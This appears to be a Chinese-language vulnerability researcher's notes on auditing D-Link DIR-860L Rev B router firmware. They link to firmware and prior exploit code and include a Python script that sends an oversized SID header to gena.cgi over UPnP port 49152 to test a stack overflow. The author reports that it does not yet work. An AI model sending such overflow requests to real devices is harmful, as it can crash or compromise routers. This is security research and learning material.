




可算是搭起来一个了。。。

```
https://legacyfiles.us.dlink.com/DIR-860L/REVB/FIRMWARE/
```


REVB的这个版本也没几个CVE，可以挖一挖。

感觉前面830L的洞可能都还没修，毕竟是小0day。。

但二进制文件已经换了，所以慢慢挖吧~


慢慢审计，不急~

```
https://github.com/soh0ro0t/Pwn-Multiple-Dlink-Router-Via-Soap-Proto
```

这里面甚至还挖了XSS。。。


对应的关键二进制文件是`htdocs/cgibin`

所以这个版本学习的就是cgi-bin的转换，逆向；以及getenv的注入与控制。




这个跟830L很多不一样，得研究研究。

先以学习为主，洞慢慢找。


最大的疑惑在于：830L的那些功能，在860L也有，比如Statistics.html，但是找不到处理的二进制文件？？？

有可能换成php文件来处理了。


# `gena.cgi` SID Buffer Overflow （🤔）

对比2.03的版本，还是有一样的栈溢出。

```
https://gist.github.com/XiaoCurry/574ed9c2b0d12cd0b45399116d82121c
```


接下来就是找怎么传参进去了。

genacgi_main函数：




需要`UNSCRIBE`方法

然后呢，这个通信不能走80端口，得走UPNP的`49152`。

这里还是以拒绝服务为例：

但好像拒绝服务触发不了？？？为啥啊？？？

```py
import socket

host = '192.168.0.1'
port = 49152

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    sock.connect((host, port))
    payload = b'a'*1024

    msg = b"UNSUBSCRIBE /gena.cgi?service=0 HTTP/1.1\r\n"
    msg += b"Host: localhost:49152\r\n"
    msg += b"SID: " + payload + b"\r\n\r\n"
    msg += b'Cookie: uid=fggL5xvGhy'

    sock.send(msg)
    print(sock.recv(1024))
    
except Exception as e:
    print(f"error: {e}")
finally:
    sock.close()
    print("[+] Done!")
```


呃呃呃。。。 先放着吧。。。


wireshark抓包看，是412错误？




慢慢排查。

哦，貌似得先subscribe。。


# 